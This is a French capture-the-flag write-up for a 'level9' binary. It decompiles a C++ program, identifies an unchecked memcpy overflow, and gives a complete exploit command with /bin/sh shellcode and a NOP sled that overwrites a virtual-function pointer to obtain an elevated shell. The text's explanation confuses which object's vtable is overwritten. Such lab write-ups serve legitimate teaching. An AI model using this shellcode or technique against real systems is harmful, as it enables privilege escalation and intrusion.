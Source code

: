 # Level 9 - Exploitation d'une classe C++ avec fonctions virtuelles

## Objectif
Exploiter un programme C++ qui utilise des classes avec des fonctions virtuelles pour obtenir un shell avec des privilèges élevés.

## Code décompilé

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  N *v3; // ebx
  N *v4; // ebx
  N *v6; // [esp+1Ch] [ebp-8h]
  if ( argc <= 1 )
    _exit(1);
  v3 = (N *)operator new(0x6Cu);
  N::N(v3, 5);
  v6 = v3;
  v4 = (N *)operator new(0x6Cu);
  N::N(v4, 6);
  N::setAnnotation(v6, (char *)argv[1]);
  return (**(int (__cdecl ***)(N *, N *))v4)(v4, v6);
}

void __cdecl N::N(N *this, int a2)
{
  *(_DWORD *)this = off_8048848;
  *((_DWORD *)this + 26) = a2;
}

void *__cdecl N::setAnnotation(N *this, char *s)
{
  size_t v2; // eax
  v2 = strlen(s);
  return memcpy((char *)this + 4, s, v2);
}

int __cdecl N::operator+(int a1, int a2)
{
  return *(_DWORD *)(a1 + 104) + *(_DWORD *)(a2 + 104);
}

int __cdecl N::operator-(int a1, int a2)
{
  return *(_DWORD *)(a1 + 104) - *(_DWORD *)(a2 + 104);
}
```

## Analyse du programme
1. Le programme crée deux objets de la classe `N` en allouant 0x6C (108) octets pour chacun.
2. Il initialise ces objets avec les valeurs 5 et 6 respectivement.
3. Il appelle `setAnnotation` sur le premier objet avec l'argument fourni par l'utilisateur.
4. Enfin, il appelle une fonction virtuelle du second objet.

## Vulnérabilité
La fonction `setAnnotation` utilise `memcpy` sans vérifier la taille de l'input, permettant un dépassement de tampon (buffer overflow). Elle copie les données à partir de l'offset 4 de l'objet.

## Stratégie d'exploitation
1. Écraser le pointeur de fonction virtuelle du premier objet (v6).
2. Le faire pointer vers notre shellcode.

## Composants de l'exploit
1. **Adresse du shellcode**: `0x804a00c`
   - C'est l'endroit où notre shellcode sera placé en mémoire.

2. **Shellcode**: 
   ```
   \x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
   ```
   - Ce code assembleur exécute `/bin/sh` quand il est exécuté.

3. **NOP sled**: 
   - Une série d'instructions "No Operation" pour augmenter la probabilité de tomber sur notre shellcode.

4. **Structure de la payload**:
   - Adresse du shellcode (4 bytes)
   - Shellcode (21 bytes)
   - NOP sled (83 bytes)
   - Adresse du shellcode répétée (4 bytes)

## Commande d'exploitation
```
./level9 $(python -c 'print "\x0c\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90" * 83 + "\x0c\xa0\x04\x08"')
```

## Explication de la commande
1. `\x0c\xa0\x04\x08`: Adresse du shellcode (en little-endian).
2. `\x6a\x0b...`: Le shellcode lui-même.
3. `"\x90" * 83`: NOP sled pour remplir l'espace.
4. `\x0c\xa0\x04\x08`: Répétition de l'adresse du shellcode pour écraser le pointeur de fonction virtuelle.

## Fonctionnement
1. Le programme copie notre payload dans le premier objet (v6) à partir de l'offset 4.
2. Notre payload écrase le pointeur de fonction virtuelle du premier objet.
3. Quand le programme essaie d'appeler la fonction virtuelle, il saute à notre shellcode.
4. Le shellcode s'exécute, nous donnant un shell avec des privilèges élevés.

## Conclusion
Cette exploitation utilise une combinaison de dépassement de tampon et de manipulation de pointeurs de fonctions virtuelles en C++ pour exécuter du code arbitraire et obtenir un accès privilégié au système. La compréhension de la disposition mémoire des objets C++ et du mécanisme des fonctions virtuelles est cruciale pour cette exploitation.